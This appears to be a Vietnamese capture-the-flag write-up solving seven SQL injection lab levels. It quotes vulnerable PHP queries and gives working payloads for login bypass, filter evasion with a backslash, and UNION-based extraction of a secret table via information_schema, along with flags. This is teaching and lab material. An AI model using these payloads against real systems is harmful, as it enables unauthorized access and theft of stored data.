







# NOTE
Test
- `"` `'` `\`
# Mục tiêu
Lab01 - Lab06: Login as admin

# Lab 01
Test với payload `admin'`  

--> Ứng dụng sử dụng MySQL  
Lỗi `'1''` --> Escape được dấu nháy đơn `'` --> Truy vấn sử dụng có dấu nháy đơn `'`  
  
**PAYLOAD** `admin'#`  
**FLAG** CBJS{da6d016bf546bfd86b8808136ebc8bc0}

# Lab 02
Test với payload `admin'`  
  
Hiện lỗi `Wrong username or password` --> ký tự `'` có thể bị nhầm lẫn trong truy vấn, chưa bị thoát ra khỏi --> username trong truy vấn sử dụng dấu `"`

**PAYLOAD** `admin"#`  
**FLAG** CBJS{f8ef24f0eebdfa5defdabc632f494f3e}

# Lab 03
Test với payload `admin"`  

Báo lỗi `syntax '1")'` --> Đã escape được dấu nháy đôi  
Test với payload `admin"#`  
  
Báo lỗi syntax `''` --> Thiếu ký tự --> ở trường password có sử dụng dấu `()`, thử thêm vào payload

**PAYLOAD** `admin")#`  
**FLAG** CBJS{4f629fe490901e261258d977a47f96e1}

# Lab 04
Payload `admin"` trả về kết quả `Hack detected` thử đăng nhập với thông tin có sử dụng thêm dấu `"` cũng có kết quả tương tự  
--> Có thể có bộ lọc `"`

**Đọc code**  
Câu truy vấn
```php
$sql = "SELECT username FROM users WHERE username=LOWER(\"$username\") AND password=MD5(\"$password\")";
```
Bộ lọc
```php
function checkValid($data)
{
    if (strpos($data, '"') !== false)
        return false;
    return true;
}
```
Khi nhập username=admin và password=1, chuỗi truy vấn trở thành  
`SELECT username FROM users WHERE username=LOWER("admin") AND password=MD5("1")`  

Vậy có cách nào khác để thoát nháy đôi trong truy vấn không?  
Có thể thoát dấu `"` trong truy vấn bằng `\"`  
`SELECT username FROM users WHERE username=LOWER("admin\") AND password=MD5("1")` 

MySQL bỏ qua dấu nháy đôi ở `\"` dẫn đến truy vấn bị thiếu một dấu nháy, truy vấn trở thành
`SELECT username FROM users WHERE username=LOWER("admin) AND password=MD5("1")` 

Nếu nhập `)` trong phần password, truy vấn trở thành  
`SELECT username FROM users WHERE username=LOWER("admin) AND password=MD5(")#1")` truy vấn tìm kiếm
`username=LOWER("admin) AND password=MD5(")` thay vì `username=LOWER("admin")`. Đây là điều kiện luôn FALSE bởi không có CSDL nào lưu username là `admin) AND password=MD5(`  

Do đó, thêm `OR username='admin'` sẽ TRUE nếu tìm được admin


**PAYLOAD**   
username=`\`  
password=`) OR username='admin'#`  
**FLAG** CBJS{44682b8def08e0fe9cdcb079e7db4dc0}

# Lab 05
  

```php
$sql = "SELECT username, password FROM users WHERE username='$username'";
```
Luồng hoạt động như sau:  
Kết quả truy vấn dựa vào `username`, trả về `username` và `password` sau đó mới kiểm tra `password`. Thay vì như những bài trước, `username` và `password` đều được kiểm tra song song trong câu truy vấn.  
```php
if ($login_password !== md5($password))
			return "Wrong username or password";

		if ($login_user === "admin")
			return "Wow you can log in as admin, here is your flag CBJS{FAKE_FLAG_FAKE_FLAG}, but how about <a href='level6.php'>THIS LEVEL</a>!";
		else
			return "You log in as $login_user, but then what? You are not an admin";
	} catch (mysqli_sql_exception $e) {
		return $e->getMessage();
	}
```
Password được kiểm tra không an toàn. `POST password` sẽ được encrypt `md5` và kiểm tra với password trả về trong truy vấn.  

Ý tưởng trả về một hàng với `UNION SELECT username,<chuỗi md5> WHERE username='admin'`  test với a `md5(a)` = `0cc175b9c0f1b6a831c399e269772661`. 
Truy vấn sẽ có kết quả  
|username|password|
|-------|--------|
|admin|0cc175b9c0f1b6a831c399e269772661|  

Ta chỉ cần nhập thêm `a` trong form password cho trùng với md5 của kết quả truy vấn là xong.

**PAYLOAD**  
username `'UNION SELECT username,'0cc175b9c0f1b6a831c399e269772661' FROM users WHERE username='admin'#`  
password `a`  
**FLAG** CBJS{3fa996e38acc675ae51fef858dc35eb3}

# Lab 06

```php
$id = $database->real_escape_string($_GET["id"]);
$sql = "SELECT content FROM posts WHERE id=$id";
```
Hàm `real_escape_string()` tự động thêm `\` thoát các ký tự đặc biệt trước khi truyền vào query.  

|Thoát|Không thoát|
| - | - |
| \x00, \n, \r, \, ', " and \x1a. | % and _ |


Mặc dù được thoát ký tự đặc biệt nhưng trong câu truy vấn, biến `$id` lại không được bọc trong bất kỳ dấu nháy nào -> nên không cần thêm nháy để escape  
Thử với `id=0` trả về kết quả lỗi, thử thêm `id=0 OR 1`, trang web trả về kết quả bình thường  
--> Có thể nối dài SQL query

Có thể khai thác `UNION`:  
1. Dò thông tin database hiện tại  `id=100+UNION+SELECT+database()` --> `post`
2. Xem các bảng hiện đang có trong database `id=100+UNION+SELECT+GROUP_CONCAT(table_name)+FROM+information_schema.tables+WHERE+table_schema%3ddatabase()`. Tìm được thêm bảng `secret6`

3. Danh sách tên các cột `id=100+UNION+SELECT+GROUP_CONCAT(column_name)+FROM+information_schema.columns+WHERE+table_schema%3ddatabase()`. Tìm được tên cột là `id,content`  



**PAYLOAD** `id=100+UNION+SELECT+content+FROM+secret6`  
**FLAG** CBJS{eb627f3d394a64184da1a16d6bb8100d}

# Lab 07
**Mục tiêu**: Tìm secret trong database
```php
$username = $_SESSION['username'];
if (isset($_POST['button'])) {
    try {
        $sql = "SELECT email FROM users WHERE username='$username'";
```

Có thể tấn công SQLi thông qua `$username`